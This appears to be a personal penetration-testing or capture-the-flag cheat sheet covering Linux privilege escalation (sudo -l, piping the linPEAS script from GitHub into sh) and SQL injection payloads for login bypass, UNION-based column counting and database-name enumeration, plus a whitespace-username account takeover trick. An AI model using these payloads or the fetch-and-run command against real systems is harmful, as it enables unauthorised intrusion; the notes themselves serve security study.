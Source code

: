 
---

# Priveledge Escalation

```
sudo -l
```

>shows current users permissions

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

```
etc/ssh/ssshd_config
```
contains ssh configurations such as #PasswordAurhentication




---
#  SQL Injection

add a space character before registering a new account to gain the same read/write permissions as an account with the same name
```
'admin' --> is a registered account username
you create the username ' admin' to gain the same rights 
```
### In Band Authentication bypass
~~~
' OR 1=1;--
or
email@email.com' --  
~~~

`bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This demonstrates the SQL injection vulnerability without putting the entire table's records at risk.
### Boolean Return
```SQL
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table

```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values
